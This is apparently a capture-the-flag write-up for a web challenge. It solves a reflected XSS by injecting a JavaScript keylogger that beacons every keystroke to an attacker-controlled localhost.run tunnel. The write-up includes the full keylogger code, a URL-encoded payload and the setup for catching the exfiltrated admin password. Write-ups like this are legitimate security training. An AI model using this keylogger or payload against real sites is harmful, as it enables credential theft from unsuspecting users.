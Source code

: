 # Web 400 - This is the linke you are looking for

## Challenge Text:

Rebel, we need your help.

Our reconnasiance team have discovered an Empire file sharing server that is exposed to the internet. I can't quite put my finger on it, but something is telling me that there is valuable information stored on the server...

Also, the Rebel Red Team has developed a phishing tool that garuntees a Storm Trooper will click on whatever is sent to them. It is here for you if you need it.

## Hints:

It seems that each time the trooper checks this site, he has to reauthenticate... is there something we can monitor to get us the info we need?

## How to Solve:

This challenge is a little bit of a different take on an XSS. 

You are given a target website where you know the administrator reqularly logs in, and you are given a "phishing" website that will emulate the victim clicking on a link. 

On the file sharing server, you can see there is a `GET` variable in the URL:

![ ](solution_images/var.png)

This is the variable that is vulnerable to XSS. We can test this by changing the value to `<script>alert(1)</script>`

![ ](solution_images/test.png)

Now that we have our attack vector, we need to craft a malicious url. We can do that on our phishing server. 

![ ](solution_images/test_link.png)

For this challenge, you need to write a javascript keylogger to capture the password when the admin enters it into the site. 

Here is an example one: 

```js
 var keys='';
document.onkeypress = function(e) {
  get = window.event?event:e;
  key = get.keyCode?get.keyCode:get.charCode;
  key = String.fromCharCode(key);
  keys+=key;
}
window.setInterval(function(){
  new Image().src = '<host_to_reachout_to>/keylogger.php?c='+keys;
  keys = '';
}, 1000);
```

Before we craft our payload URL, we first need a place for the keylogger to reach out to. There are many ways to do this, but for the sake of this solution we will look at localhost.run - [Link](http://localhost.run/)

With localhost.run we can open up a local port to the internet to catch incoming traffic. 

![ ](solution_images/localhost.png)

In this case, we are forwarding traffic that goes to `https://d24866bbe451f9.localhost.run` to port 8080 on our local machine. 

Next lets start a python web server in our tmp directory and run it on port 8080: 

*Note: create a new empty directory so that you are not exposing any files to the internet*

![ ](solution_images/tmp_python.png)

We can test this is working by going to `https://d24866bbe451f9.localhost.run` in a browser: 

![ ](solution_images/tmp_web.png)

Now that we have a place to catch the information from the keylogger, lets format that keylogger javascript in URL encoding: 

`%3Cscript%3Evar%20keys=%27%27;document.onkeypress%20=%20function(e)%20{%20%20get%20=%20window.event?event:e;%20%20key%20=%20get.keyCode?get.keyCode:get.charCode;%20%20key%20=%20String.fromCharCode(key);%20%20keys%2B=key;};window.setInterval(function(){%20%20new%20Image().src%20=%20%27https://d24866bbe451f9.localhost.run/keylogger.php?c=%27%2Bkeys;%20%20keys%20=%20%27%27;},%201000);%3C/script%3E`

![ ](solution_images/send_link.png)

We then catch the password that was entered in our python web server traffic: 

![ ](solution_images/pass.png)

`Sup3rs3cr3tpassw0rd-silicon`

Enter that password into the file sharing server site: 

![ ](solution_images/flag.png)